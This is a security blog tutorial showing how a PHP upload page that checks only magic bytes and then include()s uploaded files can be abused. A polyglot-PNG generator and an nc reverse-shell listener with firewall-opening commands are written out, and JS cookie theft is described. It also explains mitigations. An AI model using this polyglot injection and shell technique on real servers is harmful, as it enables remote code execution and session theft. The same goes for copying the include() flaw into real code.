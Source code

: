 ## A commonly overlooked PHP programming flaw, Linux magic numbers, Python and NC. How much could go wrong?

## Understanding the Application
- **Navigating to our test application brings us to an upload page:**

```
<html>
  <h1>Upload an image:</h1>
  <form action="upload.php" method="POST" enctype="multipart/form-data"">
    <input type="file" name="userfile" />
    <input type="submit" value="Submit" name="submit" />
  </form>
</html>
```

![webapp_1.png]({{site.baseurl}}/assets/img/webapp_1.PNG)


- **After uploading a file, we get back a link that we can follow to either view the image and/or share it with others:**

```
if( isset($_POST["submit"]) ) {
	$upload_dir = "./uploads";
	$upload_name = $upload_dir . $_FILES["userfile"]["name"];
	if( move_uploaded_file($_FILES["userfile"]["tmpname"], $upload_name) ) {
		echo("Success! Here's the image you uploaded: <br><br>");
		echo("View/Share link: <a href='http://localhost:5000/view.php?id='" . $_FILES["userfile"]["name"] . "'>Share!</a>);
	}
	else {
		echo("Upload error");
	}
}
else {
	echo("Please upload a file.");
}
```
![webapp_2.png]({{site.baseurl}}/assets/img/webapp_2.png)


- **Viewing the image:**

```
<?
  include("./uploads" . $_GET['id']);
  // storing the above in a variable, further processing ...
?>
```

Typically, developers would implement file type both on client side using JavaScript as well as on the backend either through just a string comparison of the `file extension` or through the `EXIF header checks` in the case of PHP applications. This ensures that users upload only images and not (for example) PHP code that could be interpreted.

The `exif_imagetype(string $filename)` function returns the type of an image based on the first few bytes present in the file. These bytes typically found at the start of the file are called `Magic File Numbers` and are responsible for defining actual file types to the operating system dealing with them. As you would expect, each file type/extension would have a unique set of identifying bytes.

This implies that only the first few bytes are considered in validating a file type. Bytes beyond the scope of the magic number length are responsible for other attributes of the file such as width/height for images or content and format specifiers in case of documents.

### What happens when we try injecting random non-file-specific data into the file? Can we still convince the OS that the file is valid?
Below is a snippet from a tool I wrote to embed content in media files.
```
# also modifying height, width, bit-depth of image
# hardcoded to 256x256, 24-bit depth
# uses the args dict, eg: args = {'ext' = 'png', text = 'some text here'}
def inj2png(args):
	rfname = getRandomFileName()
	with open(rfname + '.' + args.ext, 'wb') as f:
		f.write(b'\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52 \
            \x00\x00\x01\x00\x00\x00\x01\x00\x18\x45\x4e\x44\xae\x42\x60\x82' + \
            args.text.encode())
	print(rfname + '.' + args.ext, ' was written.')
```

Running the script, hexdump-ing the resulting image and running the OS provided `file` command shows:
![webapp_3.png]({{site.baseurl}}/assets/img/webapp_3.png)

Magic bytes at the start of the file could get us past OS file checks as well as exif checks in PHP. Let’s introduce a heavily flawed practice to understand the damage these concepts could do together.

`include(string $filename); // require() also problematic`

*The include and require statements take all the text/code/markup that exists in the specified file and copies it into the file that uses these statements.*

In case of our web application, once you upload an image, it is invoked server-side through an `include()` statement. The same effect could be caused by trying to request the file, causing a vulnerable web server to execute the code. We know that this call would evaluate any valid PHP in the included file.

## What happens if we embed PHP?
### Server-side execution
![webapp_4.png]({{site.baseurl}}/assets/img/webapp_4.PNG)

Once uploaded, we get the following:
![webapp_5.png]({{site.baseurl}}/assets/img/webapp_5.PNG)

On clicking the image, the server would `include()` the file we just uploaded, causing the payload to run, resulting in:
![webapp_6.png]({{site.baseurl}}/assets/img/webapp_6.png)

### Returning JS
![webapp_7.png]({{site.baseurl}}/assets/img/webapp_7.png)

On following the view/share link, we get a page that shows:
![webapp_8.png]({{site.baseurl}}/assets/img/webapp_8.png)

Unless cookies are marked http-only, we now have access to them via the JS browser API.

### Remote Login
On our remote machine:
`nc -lvp 4444`

Make sure firewall rules ALLOW on the port:
```
sudo iptables -I INPUT -p tcp --dport 4444 -j ACCEPT
sudo iptables -I OUTPUT -p tcp --dport 4444 -j ACCEPT
```

![webapp_9.png]({{site.baseurl}}/assets/img/webapp_9.png)

Once we upload the image and follow the view/share link, we see a connection log on our listener - we have a shell on the system.

If the web-server was running as root, we would now have full access to the system. 

## Preventing all of the above
- Validating files based on just their extensions via string comparisons is pointless.
- Validating files by content through EXIF functions or the underlying OS is a shade better and does provide some protection.
- Validating file size is an added layer of defence but could also be spoofed by modifying additional bytes following the magic number range.
- Going through the file and looking for suspect characters is a sure-fire way of preventing the above, but is not very practical to implement.
- Do not trust user input. Do not use include() or require() directly for any sort of processing on user uploaded files. Always sanitize input and check against a white-list.
- *Run the web server with a limited set of permissions.* The process should be limited to directories and files that it needs, with minimum required permissions.
- Harden your server. Remove the tools you do not need and do not allow outgoing connections unless absolutely required. Even so, implement a whitelist for the same. 
- WAF and HIDS should be configured to pick up on abnormal behaviour.

*Disclaimer: This article is purely for educational purposes. Do not scan or interefere with any systems unless you have explicit permission for testing by the owner. I am not responsible for any form of damage to any assets caused through misuse of this information.*

